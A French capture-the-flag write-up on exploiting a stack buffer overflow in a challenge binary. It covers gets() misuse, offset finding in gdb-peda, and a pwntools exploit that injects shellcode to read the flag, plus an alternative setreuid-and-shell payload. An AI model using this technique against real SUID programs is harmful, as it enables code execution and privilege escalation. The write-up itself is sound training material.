

# Barriere



## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- Le serveur nous donne ce qui semble être un accès SSH
- On y trouve un programme nommé `barriere`
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme quitte

```bash
$ ssh opennc@challs.hackagou.nc 5001
$ ./barriere
Show me your style!
Je bloque à 0x7ffedf64b8b0
AAAAAA
```

### Analyse statique

Le challenge nous permet de télécharger le binaire à exploiter sur le serveur.

En regardant rapidement le code, on trouve la fonction main qui correspond au code suivant :

```c
int main(void)

{
  char user_input [64];

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Je bloque à %p\n",user_input);
  gets(user_input);
  return 0;
}
```

On remarque que l'adresse leakée est celle de notre input (sur la stack).
Par ailleurs, il n'y a pas de contrôle sur la taille de l'input qui va être stocké dans un buffer de 64 octets

Niveau protection, rien de particulier, la stack permet l'exécution de code et aucun canary n'y est placé :

```bash
$ checksec barriere
[*] '/home/opennc/barriere'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Il reste à supposer que l'ASLR est activée sur le serveur, ce qui est confirmé en relançant deux fois le challenge, l'adresse du leak change.


### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow et donc suivre les instructions habituelles de ce type de vulnérabilité :
- Remplir le buffer
- Ecraser la sauvegarde de RIP sur la stack (avec une adresse pointant sur notre shellcode)
- Poser un shellcode sur la stack

Nous trouvons facilement l'offset du RIP via peda (création d'une chaîne de 256 caractères et utilisation lors de l'input du programme)

```
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ run
Starting program: /home/opennc/barriere 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Show me your style!
Je bloque à 0x7ffea3db4e40
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.


[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f0fbd8ddaa0 --> 0xfbad2288 
RDX: 0x1 
RSI: 0x1 
RDI: 0x7f0fbd8dfa80 --> 0x0 
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7ffea3db4e88 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
RIP: 0x4005ba (<main+67>:	ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x77 ('w')
R11: 0x246 
R12: 0x7ffea3db4f98 --> 0x7ffea3db5829 ("/home/opennc/barriere")
R13: 0x400577 (<main>:	push   rbp)
R14: 0x0 
R15: 0x7f0fbd92c040 --> 0x7f0fbd92d2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero[ sign trap INTERRUPT direction overflow)
[..]]
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005ba in main ()
```

On cherche quelle instruction a pu pousser le programme à l'erreur de segmentation.

<pre><code>gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdc48:
 rip = 0x4005ba in main; <b><ins>saved rip = 0x4134414165414149</ins></b>
 called by frame at 0x7fffffffdc58
 Arglist at 0x4141334141644141, args: 
 Locals at 0x4141334141644141, Previous frame's sp is 0x7fffffffdc50
 Saved registers:
  rip at 0x7fffffffdc48</code></pre>

RIP pointait sur 0x4134414165414149 qui correspond à IAAeAA4A en little-endian. Utilisation de *pattern_offset* afin de trouver l'offset de cette chaîne qui nous servira à écraser RIP.

```
gdb-peda$ pattern_offset IAAeAA4A
IAAeAA4A found at offset: 72
```

Nous devons donc réécrire l'adresse fournie par le programme jusqu'au 72ème octet, écrire l'adresse de notre shellcode (adresse reçue du programme + 72 + 8) et placer notre shellcode.

Ce qui donne, en utilisant pwntools et un simple shellcode 'cat flag.txt' :

```python
from pwn import *

context.clear(arch='amd64')
s = ssh(host='challs.hackagou.nc', port=5001, user='opennc', password='opennc')

p = s.process('./barriere')

resp = p.recvuntil(b'0\n')
buff_add = resp.split(b'\n')[1].split(b' ')[3]
log.success("Leak : " + buff_add.decode())

shell_addr = int(buff_add.decode(), 16) + 72 + 8
log.success("shell_addr : " + hex(shell_addr))

payload = b"\x90" * 72
payload += p64(shell_addr)
payload += asm(shellcraft.cat('flag.txt'))

p.sendline(payload)
print(p.recvline().decode())
```

```bash
$ python3 pwn-barriere.py
[+] Connecting to challs.hackagou.nc on port 5001: Done
[*] opennc@challs.hackagou.nc:
    Distro    Ubuntu 22.04
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./barriere') on 127.0.0.1: pid 81
[+] Leak : 0x7ffd90f9c7e0
[+] shell_addr : 0x7ffd90f9c840
OPENNC{BufF3R_0v3r_t3h_F10w}
```

Pour ceux qui souhaitaient utiliser un bash ou un sh, il est nécessaire de faire un setreuid() avant l'appel du shell afin de récupérer les droits du SUID.

```python
# Autre possibilité via un shell
payload += asm(shellcraft.setreuid() + shellcraft.sh())
p.sendline(payload)
p.interactive()
```
